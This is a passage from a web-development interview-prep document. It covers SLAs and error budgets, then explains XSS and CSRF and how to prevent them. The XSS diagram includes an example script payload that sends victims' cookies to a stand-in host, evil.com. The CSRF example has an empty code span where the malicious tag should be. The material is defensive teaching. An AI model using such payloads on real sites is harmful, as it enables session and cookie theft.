- **SLO** (Service Level Objective) — internal target that's stricter than SLA
- **SLI** (Service Level Indicator) — the actual measured metric

Example:
- SLA: 99.9% uptime (8.7 hours downtime/year permitted — if breached, refund customers)
- SLO: 99.95% uptime (target to stay well within SLA)
- SLI: `successful_requests / total_requests` measured over 30 days

**Error Budget:** Time (or request percentage) you can afford to be below SLO before breaching SLA. If SLO = 99.95%, error budget = 0.05% = ~26 minutes/month. Burn through the error budget = no more risky deployments until next month.

---

## 10. Security Q&A

**Q29: What is XSS (Cross-Site Scripting) and how do you prevent it?**

```mermaid
flowchart LR
    ATTACK["Attacker\nInjects: <script>document.location='evil.com?c='+document.cookie</script>\nin a comment, review, or form field"] -->|"Stored in DB"| SERVER["Server\nStores unsanitized content\nServes it to other users in HTML"]
    SERVER --> VICTIM["Victim's Browser\nExecutes injected script\nCookies/session stolen"]

    PREVENT["Prevention:\n1. React/Angular auto-escapes JSX output\n2. Never use innerHTML or dangerouslySetInnerHTML with user input\n3. DOMPurify.sanitize() for rich text\n4. Content-Security-Policy header restricts script sources\n5. HttpOnly cookies (can't be read by JS even if XSS occurs)"]

    style ATTACK fill:#ef4444,color:#fff
    style VICTIM fill:#ef4444,color:#fff
    style PREVENT fill:#22c55e,color:#fff
```

---

**Q30: What is CSRF (Cross-Site Request Forgery) and how is it prevented?**

**Answer:**
CSRF tricks a logged-in user's browser into making an unintended request to your server (because the browser automatically sends cookies).

**Example attack:**
1. User is logged into bank.com (session cookie is active)
2. User visits evil.com — malicious page has `` 
3. Browser fetches that URL with the user's bank.com cookies — transfer executed!

**Prevention:**
- **`SameSite=Strict` or `SameSite=Lax` cookies** — browser won't send cookies on cross-site requests
- **CSRF Token** — hidden form field with a random token; server validates it matches the session token
- **Double Submit Cookie** — JS reads a non-HttpOnly cookie and submits it as a header; cross-site JS can't read cookies

**Modern standard:** `SameSite=Lax` cookies (default in modern browsers) + CSRF token for sensitive mutations (bank transfers, password change).

---

## Source Attribution

| Section | Primary Source | Additional Sources |
|---|---|---|
| UI interview questions core | Description-UI-Questions-Clean.md | Description-UI-Architecture-Complete.md, Description-Questions-Complete.md, Description-Questions2-Complete.md |
| Rendering strategies, module federation, CQRS, headless | Description-UI-Architecture-Complete.md | — |
| CSS/WCAG/ARIA, PWA, critical rendering path | Description-Questions-Complete.md | — |
| Android deep-dive, RADIO framework, design-patterns Q&A | Description-Questions2-Complete.md | — |

*Consolidated: July 2026 | DocDedupAnalyzer Agent v1.0*
*Original files: Description-UI-Questions-Clean.md, Description-UI-Architecture-Complete.md, Description-Questions-Complete.md, Description-Questions2-Complete.md | Zero data loss guaranteed*
